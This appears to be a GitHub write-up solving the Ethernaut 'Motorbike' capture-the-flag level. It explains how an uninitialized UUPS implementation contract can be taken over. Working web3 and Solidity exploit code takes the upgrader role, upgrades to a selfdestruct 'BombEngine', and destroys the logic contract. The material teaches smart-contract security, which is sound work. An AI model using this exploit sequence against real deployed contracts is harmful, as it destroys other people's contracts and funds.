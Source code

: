 # Level 25: Motorbike

This is the level 24 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites
- [delegatecall](https://eip2535diamonds.substack.com/p/understanding-delegatecall-and-how) in Solidity
- [selfdestruct](https://docs.soliditylang.org/en/v0.6.0/units-and-global-variables.html#contract-related) function in Solidity
- [Proxy Patterns](https://blog.openzeppelin.com/proxy-patterns/)
- [UUPS Proxies](https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786)
- [OpenZeppelin Proxies](https://docs.openzeppelin.com/contracts/4.x/api/proxy)
- [Initializable](https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/master/packages/core/contracts/Initializable.sol) contract

## Hack

Given contracts:
```solidity

// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`. 
    // Will run if no other function in the contract matches the call data
    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }
    
    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
    
    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
        
        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

`player` has to make the proxy (`Motorbike`) unusable by destroying the implementation/logic contract (`Engine`) through `selfdestruct`.

As you can see current `Engine` implementation has no `selfdestruct` logic anywhere. So, we can't call `selfdestruct` with current implementation anyway. But, since it is a logic/implementation contract of proxy pattern, it can be upgraded to a new contract that has the `selfdestruct` in it.

`upgradeToAndCall` method is at our disposal for upgrading to a new contract address, but it has an authorization check such that only the `upgrader` address can call it. So, `player` has to somehow take over as `upgrader`.

The key thing to keep in mind here is that any storage variables defined in the logic contract i.e. `Engine` is actually stored in the proxy's (`Motorbike`'s) storage and not actually `Engine`. Proxy is the storage layer here which delegates _only_ the logic to logic/implementation contract (logic layer). 

What if we did try to write and read in the context of `Engine` directly, instead of going through proxy? We'll need address of `Engine` first. This address is at storage slot `_IMPLEMENTATION_SLOT` of `Motorbike`. Let's read it:

```javascript
implAddr = await web3.eth.getStorageAt(contract.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')

// Output: '0x000000000000000000000000<20-byte-implementation-contract-address>'
```
This yields a 32 byte value (each slot is 32 byte). Remove padding of `0`s to get 20 byte `address`:
```javascript
implAddr = '0x' + implAddr.slice(-40)

// Output: '0x<20-byte-implementation-contract-address>'
```

Now, if we sent a transaction directly to `initialize` of `Engine` rather than going through proxy, the code will run in `Engine`'s context rather than proxy's. That means the storage variables - `initialized`, `initializing` (inherited from `Initializable`), `upgrader` etc. will be read from `Engine`'s storage slots. And these variables will most likely will contain their default values - `false`, `false`, `0x0` respectively because `Engine` was supposed to be only the logic layer, not storage.
And since `initialized` will be equal to `false` (default for `bool`) in context of `Engine` the `initializer` modifier on `initialize` method will pass!

Call the `initialize` at `Engine`'s address i.e. at `implAddr`:
```javascript
initializeData = web3.eth.abi.encodeFunctionSignature("initialize()")

await web3.eth.sendTransaction({ from: player, to: implAddr, data: initializeData })
```

Alright, invoking `initialize` method must've now set `player` as `upgrader`. Verify by:
```javascript
upgraderData = web3.eth.abi.encodeFunctionSignature("upgrader()")

await web3.eth.call({from: player, to: implAddr, data: upgraderSig}).then(v => '0x' + v.slice(-40).toLowerCase()) === player.toLowerCase()

// Output: true
```

So, `player` is now eligible to upgrade the implementation contract now through `upgradeToAndCall` method. Let's create the following malicious contract - `BombEngine` in Remix:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

contract BombEngine {
    function explode() public {
        selfdestruct(address(0));
    }
}
```
Deploy `BombEngine` (on same network) and copy it's address.

If we set the new implementation through `upgradeToAndCall`, passing `BombEngine` address and encoding of it's `explode` method as params, the existing `Engine` would destroy itself. This is because `_upgradeToAndCall` delegates a call to the given new implementation address with provided `data` param. And since `delegatecall` is context preserving, the `selfdestruct` of `explode` method would run in context of `Engine`. Thus `Engine` is destroyed.

Upgrade `Engine` to `BombEngine`. First set up function data of `upgradeToAndCall` to call at `implAddress`:
```javascript
bombAddr = '<BombEngine-instance-address>'
explodeData = web3.eth.abi.encodeFunctionSignature("explode()")

upgradeSignature = {
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: 'newImplementation'
        },
        {
            type: 'bytes',
            name: 'data'
        }
    ]
}

upgradeParams = [bombAddr, explodeData]

upgradeData = web3.eth.abi.encodeFunctionCall(upgradeSignature, upgradeParams)
```

Now call `upgradeToAndCall` at `implAddr`:
```javascript
await web3.eth.sendTransaction({from: player, to: implAddr, data: upgradeData})
```

Boom! The `Engine` is destroyed! The `Motorbike` is now useless. `Motorbike` cannot even be repaired now because all the upgrade logic was in the logic contract which is now destroyed.

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

